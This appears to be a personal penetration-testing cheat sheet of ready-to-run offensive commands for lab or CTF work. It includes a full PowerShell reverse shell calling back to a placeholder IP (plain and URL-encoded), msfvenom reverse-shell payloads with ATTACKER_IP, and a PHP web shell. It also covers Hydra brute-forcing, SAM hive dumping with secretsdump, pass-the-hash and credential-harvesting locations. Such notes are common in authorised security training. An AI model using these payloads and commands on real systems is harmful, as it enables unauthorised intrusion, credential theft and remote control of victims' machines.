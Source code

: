 # Basic Commands

### Python

`python3 -m http.server PORT`

### RDP

`xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:ip_address /u:Administrator /p:'password'`

### SSH

`chmod 600 deployment_key.txt`
`ssh -i deployment_key.txt user@ip_address`

### SMB

`smbclient //IP_ADDRESS/SHARE`  
-U user  
-p port  
(username anonymous and no password for anonymous login)  
to download share:  
`smbget -R smb://IP_ADDRESS/SHARE`

### TCPDump

`sudo tcpdump port # -A`

### Windows

`sc qc` - get info about a service. See unquoted service paths.  
`sc stop/start` - stop and start services.  
`icacls` - check permissions.  
`icacls FILE /grant GROUP:PERMISSIONS`  
`whoami /priv`  
`wmic product get name,version,vendor` - list installed software and versions  
`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\FILE`  


# Brute-Forcing
### fcrackzip
`fcrackzip -b -v -u file.zip (to brute force)`
`fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u file.zip (dictionary)` 
### Hydra
`hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt IP_ADDRESS -t THREAD_COUNT PROTOCOL_NAME`
-s PORT (for non-default port numbers)  
-d to show debugging info  
`sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"`



# Enumeration

### Active Directory
`gpresult /r` (get domain controller computer is getting group policy from)  
`Set Logonserver`  

### Nmap
`nmap -sn ADDRESSRANGE`  
`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP`  

### SMB
`smbclient -L IP_ADDRESS` 
`enum4linux OPTIONS IP_ADDRESS`
-U get userlist  
-M get machine list  
-N get namelist dump (different from -U and-M)  
-S get sharelist  
-P get password policy information  
-G get group and member list  
-a all of the above (full basic enumeration)  



# Footholds

### PentestMonkey Cheatsheet
https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

### PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### Shells

PHP  
/usr/share/webshells/php/php-reverse-shell.php

Powershell    
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`  
URL-Encoded  
`powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`  

### Stabilize Shell
Python  
`python -c 'import pty;pty.spawn("/bin/bash")'`  

`export TERM=xterm`  
(ctrl+z)  
`stty raw -echo; fg`  



# Privesc

### GTFOBins
https://gtfobins.github.io

### Linux
`sudo -l`  
`sudo -u#-1 /bin/bash` (if ALL in output of above command and sudo 1.8.27 or prior)  
`sudo apache2 -f /etc/shadow` (reads first line if apache2 runs as sudo)  
`hostname`  
`cat /proc/version` OR `/etc/issue`  
`ps axjf` (process tree)  
`ps aux` (user info)  
`env`  
`cat /etc/shells`  
`find / -perm -u=s -type f 2>/dev/null`
world-writable files: /tmp, /dev/shm,/var/lock, /run/lock  
`find / -writable 2>/dev/null`  
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`  
find world executable folders:  
find / -perm -o x -type d 2>/dev/null
#dev tools and supported languages
find / -name perl* 2>/dev/null (gcc, python)
strings BINARY
export PATH=$PATH:/place/with/the/file
getcap -r / 2>/dev/null (check for capabilities on binaries)
cat /etc/crontab
cat /etc/exports (NFS configuration)
showmount -e IP_ADDRESS


#Windows
#Priv2Admin
https://github.com/gtworek/Priv2Admin

Leftover credentials from unattended installations: 
C:\Unattend.xml 
C:\Windows\Panther\Unattend.xml 
C:\Windows\Panther\Unattend\Unattend.xml 
C:\Windows\system32\sysprep.inf 
C:\Windows\system32\sysprep\sysprep.xml

Retrieve password history from cmd.exe:
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Powershell:
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

View saved credentials:
cmdkey /list
( to use creds )
runas /savecred /user:admin cmd.exe
Search registry for passwords:
reg query HKLM /f password /t REG_SZ /s

Generate malicious exe:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
Change path to malicious .exe on configurable service:
sc config SERVICE_NAME binPath= "C:\PATH_TO_MALICIOUS_EXE" obj= ACCOUNT

If SeBackup Privilege:
reg save hklm\system OUTFILE.hive
reg save hklm\sam OUTFILE.hive
Copy to impacket-smbserver:
impacket-smbserver -smb2support -username USER -password PASSWORD SHARENAME DIRECTORY 
impacket-secretsdump -sam sam.hive -system system.hive LOCAL

Pass the hash:
impacket-psexec -hashes HASH USER@IP_ADDRESS
pth-winexe -U 'username%hash' //MACHINE_IP cmd.exe

Check Autorun:
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

AlwaysInstallElevated:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP_ADDRESS LPORT=53 -f msi -o reverse.msi
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi



RCE
#PHP
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
( execute using URL/uploads/shell.php?cmd= )
